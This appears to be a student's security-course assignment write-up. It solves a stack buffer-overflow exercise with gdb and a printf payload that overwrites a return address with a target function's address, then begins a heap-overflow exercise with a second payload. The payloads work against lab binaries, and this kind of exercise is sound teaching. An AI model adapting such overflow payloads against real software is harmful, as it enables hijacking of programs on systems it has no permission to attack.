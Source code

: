 ### <center><b><h1>Assignment2</h1></b></center>
<center><b>Wonchan Kim 301449586 </b></center>
<h2>Q1</h2>
![[Pasted image 20250925144031.png]]
![[Pasted image 20250925144137.png]]
with gdb debugger, it is possible to get the function address. Need to overflow the buffer with the address of target_function.
![[Pasted image 20250925145859.png]]
setting the breakpoint at the vulnerable function and running
![[Pasted image 20250925152245.png]]
indicates there are 18 bytes difference between the return address of the vulnerable function. 

Hence, 

printf 'AAAAAAAAAAAAAAAAAA\xbb\x11\x40\x00\x00\x00\x00\x00' > p.txt

cat p.txt |./sof
Enter some text: You entered: AAAAAAAAAAAAAAAAAA�@
Yes! You did it!


<h2>Q2</h2>
This question is exploiting the vulnerability that occurs from heap alignment. There are two mallocs call, and we can check two variables are aligned on the memory.
![[Pasted image 20250925161409.png]]
We can find that the result of malloc is stored in rbp - 0x10 and 0x8 each.
As the variable is the pointer, we can check the value stored in the variable with following command. 
![[Pasted image 20250925160211.png]]
We can check two things: 
1. values are stored in little endian (note that A is stored in the third block)
2. difference between two memory allocation is 32, 16('c'-'a')
The memory alignment will be as following:


printf 'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x34\x13' >hof.txt

